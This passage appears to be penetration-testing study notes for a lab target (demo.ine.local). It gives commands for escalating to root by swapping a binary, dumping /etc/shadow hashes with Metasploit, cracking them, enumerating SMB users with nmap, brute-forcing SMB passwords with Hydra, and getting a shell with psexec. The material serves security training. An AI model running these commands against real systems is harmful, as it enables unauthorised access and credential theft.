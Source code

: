 > Now if we remove a file that is being run by the welcome file as shown above and make a file with the same name but with the components of `/bin/bash`. Then upon executing the `welcome` file we will get the root privileges.

#### Dumping Linux Passwords Hashes:

```console
/etc/shadow
```

> This file has all the hashes for the user that are using that particular machine and this can only be accessed by a root user or a user with privileged access.

```console
root:$6$gvewkfv7o7i32ugbc328pgibcewuhjbh:45678:0:999999:7:::
```

> This is an exemplary hash 

```msfconsole
use post/linux/hashdump
show options 
set SESSION <session-ID>
run
```

> This modules will also perform the same function

```msfconsole
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

> This module can be used to crack a hash.

#### SMB & NetBIOS Enumeration:

```shell
nmap -p445 --script smb-enum-users.nse  demo.ine.local
```

> see the user and than make a users.txt file

```Shell
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb
```
> Hydra command to brute force `smb` users pass.

```msfconsole
msfconsole -q
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser administrator
set SMBPass password1
exploit
```

> This module can be used to exploit the machine using `smb` creds.
